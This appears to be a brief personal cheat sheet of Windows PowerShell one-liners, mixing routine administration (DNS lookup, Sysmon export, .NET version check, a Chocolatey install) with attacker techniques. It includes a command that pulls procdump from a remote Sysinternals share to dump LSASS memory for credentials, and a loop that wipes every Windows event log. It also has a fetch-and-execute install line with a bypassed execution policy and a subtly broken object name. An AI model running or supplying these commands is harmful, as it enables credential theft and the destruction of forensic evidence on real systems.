 Resolve IP to HOST
```
[System.Net.Dns]::GetHostbyAddress(“$IP”)
```


Live sys internals
```
net use s: \\live.sysinternals.com\tools;
s:\procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1'
```

Choco install
```
Set-ExecutionPolicy Bypass -Scope Process -Force; 
iex ((New-ObjectSystem.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1'))
```

Clear all logs
```
wevtutil el | Foreach-Object {wevtutil cl “$_”};
ping localhost;
```

Export sysmon log
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:sysmonview > $env:HOMEPATH\Downloads\eventlog.xml
```

Return .NET versions
```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -recurse |
Get-ItemProperty -name Version,Release -EA 0 |
Where { $_.PSChildName -match '^(?!S)\p{L}'} |
Select PSChildName, Version, Release
```
